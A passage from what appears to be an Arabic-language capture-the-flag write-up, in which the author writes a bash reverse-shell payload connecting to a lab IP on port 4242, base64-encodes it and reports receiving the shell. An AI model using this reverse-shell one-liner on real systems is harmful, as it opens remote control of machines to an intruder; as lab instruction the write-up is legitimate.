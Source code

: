 ![time_delay](/assets/img/smol_time_delay.png)
ممتاز!، خلينا نبدأ اتصال عكسي . الحمولة راح تكون باش عشان البساطة وراح أشفرها base64 & URL encoding وبعدين أرسلها للسيرفر
```
cat sh3.sh 
bash -i >& /dev/tcp/10.21.157.83/4242 0>&1

cat sh3.sh | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4yMS4xNTcuODMvNDI0MiAwPiYxCg==
```
![encoding_payload](/assets/img/smol_encoding_payload.png)
![sending_reverse_shell](/assets/img/smol_sending_revshell.png)
![revshell_recived](/assets/img/smol_recived_revshell.png)
